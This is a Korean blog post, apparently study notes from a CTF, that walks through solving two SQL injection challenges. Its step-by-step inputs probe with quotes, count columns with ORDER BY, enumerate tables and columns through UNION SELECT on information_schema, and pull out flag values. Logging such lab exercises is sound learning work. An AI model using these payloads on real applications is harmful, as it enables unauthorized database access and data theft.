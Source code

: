 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[SECURITY] CTF 문제 풀이: SQL INJECTION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL INJECTION 1
1. adminer
-> 대소문자 구분 X
2. adminer'
-> X
3. a%
-> like 구절 있어
4. a#
-> X
5. a'#
-> X
6. a%'#
-> 입력값이 들어가는 곳이 like 위치인가 보다
-> 괄호 안 들어가고
7. ' and '1' = '1
-> X
8. %' and '1' = '1
-> X
9. ' and '1' = '1'#
-> O
10. ' order by 1, 2, 3, 4 #
-> O
11. ' order by 1, 2, 3, 4, 5 #
-> X
-> column 개수 4개
12. ' union select 1, 2, 3, 4 #
-> O
13. ' union select database(), 2, 3, 4 #
-> sqli_1
19. ' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #
-> flag_table, plusFlag_Table, user_info
20. ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #
-> flag
21. ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #
-> idx, flag
22. ' union select flag, 2, 3, 4 from flag_table #
23. ' union select idx, flag, 3, 4 from plusFlag_Table #

# SQL INJECTION 2
1. normaltic
-> 보이는 column은 ID, Level, Rank Point, info
2. normaltic' and '1' = '1
-> O
-> ID가 입력한 그대로 보임
3. *
-> row가 1개인가봐
4. normaltic' order by 1, 2, 3, 4 #
-> O
5. normaltic' order by 1, 2, 3, 4, 5 #
-> O
6. normaltic' order by 1, 2, 3, 4, 5, 6 #
-> O
7. normaltic' order by 1, 2, 3, 4, 5, 6, 7 # 
-> X
-> column: 6
8. ' union select database(), 2, 3, 4, 5, 6 #
-> X
-> 1 column 비공개다
9. ' union select 1, database(), 3, 4, 5, 6 #
-> 2 column 비공개다
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 6 column 공개
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> flag_honey
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #
-> flag
13. ' union select 1, 2, 3, 4, 5, flag from flag_honey #
-> kkkkkkk_Not Here!

---
왜 1개씩 밖에 안 보일까?
-> row가 딱 한 개다?
14. ' or '1' = '1
-> row 1개
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
-> row가 한 개 밖에 안 보이니까
-> 다른 table이 있는 데 안 보이는 거지
12. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#
-> view라는 다른 table이 보여요 좋아요
13. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #
-> secret
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #
-> flag
13. ' union select 1, 2, 3, 4, 5, flag from secret #
-> NONONO~
14. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' order by 6 #
-> flag
15. ' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #